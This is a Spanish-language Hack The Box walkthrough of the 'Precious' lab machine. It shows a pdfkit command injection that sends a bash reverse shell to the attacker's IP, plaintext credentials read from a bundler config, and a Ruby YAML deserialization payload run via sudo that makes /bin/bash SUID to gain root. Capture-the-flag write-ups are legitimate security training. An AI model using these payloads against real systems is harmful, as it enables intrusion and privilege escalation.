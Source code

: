 ```yaml
---
layout: post
title: Precious
date: 2022-12-28
author: BlackCage
categories: [HackTheBox]
tags: [HTB, PDF, File Edit]
---
```


# Precious [ Hack The Box ]

### Reconocimiento
##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 10.10.11.189 -oG allPorts`
- `nmap -sCV -p22,80 10.10.11.189 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell
Cuando entramos a la página vemos una caja que nos pide una `URL` para convertirla a `PDF`. Con `Python` me monté un servidor:

- `python3 -m http.server 80`

Para ver si recibimos alguna conexión probé a poner mi servidor `HTTP` y darle al `enter`. Como nos esperábamos, hay conectividad y además se nos descarga el `PDF`.

Con `exiftool` miraremos las propiedades del `PDF` para ver qué podemos encontrar:

- `exiftool archivo.pdf`

```shell
ExifTool Version Number         : 12.16
File Name                       : archivo.pdf
Directory                       : .
File Size                       : 17 KiB
File Modification Date/Time     : 2022:12:02 21:07:38-06:00
File Access Date/Time           : 2022:12:02 21:07:38-06:00
File Inode Change Date/Time     : 2022:12:02 21:07:53-06:00
File Permissions                : rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

En la última fila vemos que ha sido generado por `PDFKit` versión `0.8.6`. Si buscamos información nos encontraremos con que es vulnerable a `Command Injection` ([`Snyk`](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)).

Para ganar una Reverse Shell primero nos pondremos en escucha con `NC` por el puerto que queramos, en mi caso el `4444`:

- `nc -nlvp 4444`

Perfecto, el siguiente paso será irnos a [`IronHackers`](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/) y copiarnos una Reverse Shell en `Bash`.

Una vez tengamos todo hecho volveremos a la página y de vuelta pondremos nuestro servidor `HTTP` pero con una pequeña modificación:

- `http://10.10.11.89/?name=#{'%20`bash -i >& /dev/tcp/10.10.11.89/4444 0>&1`'}`

Bien! Ya estamos en la máquina como `Ruby`!

### Subida de privilegios #1
Una vez estemos dentro de la máquina nuestro objetivo es ser `root`, aunque debemos pasar por otro usuario antes (`Henry`).

Para ello me fui al directorio personal de `Ruby` e hice `ls -la`:

```shell
drwxr-xr-x 4 ruby ruby 4096 Dec  2 22:03 .
drwxr-xr-x 4 root root 4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root root    9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .bundle
drwxr-xr-x 3 ruby ruby 4096 Dec  2 22:03 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
```

Vemos una carpeta llamada `.bundle`, si entramos nos encontraremos con un fichero con el nombre de `config`, vamos a leer lo que pone:

```
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Wow! Podemos ver en texto claro las credenciales de `Henry`!

### Subida de privilegios #2
Ahora sí podemos seguir con nuestro objetivo principal: conseguir ser `root`. Para ello lo 
primero que hice fue hacer `sudo -l` para mirar los permisos de `sudoers`:

```shell
Matching Defaults entries for henry on precious:
    secure_path=/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Vemos que podemos ejecutar como `root` y sin contraseña el binario de `Ruby`. Por desgracia sólo podemos usarlo para un archivo en específico.

Si miramos el código veremos que necesitaremos un archivo llamado `dependencies.yml`. Para crear el nuestro podemos utilizar el siguiente [`payload`](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml). Lo editaremos a nuestro gusto:

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod u+s /bin/bash
         method_id: :resolve
```

Vemos que en el apartado `git_set` hemos hecho que la `Bash` sea `SUID`, vamos a ejecutarlo:

- `sudo /usr/bin/ruby /opt/update_dependencies.rb`

Bien! Si ahora hacemos `ls -l /bin/bash` veremos que los permisos han cambiado y con `bash -p` nos convertimos en `root`.

Enhorabuena! Ya estamos como `root` en la máquina víctima! Qué fácil!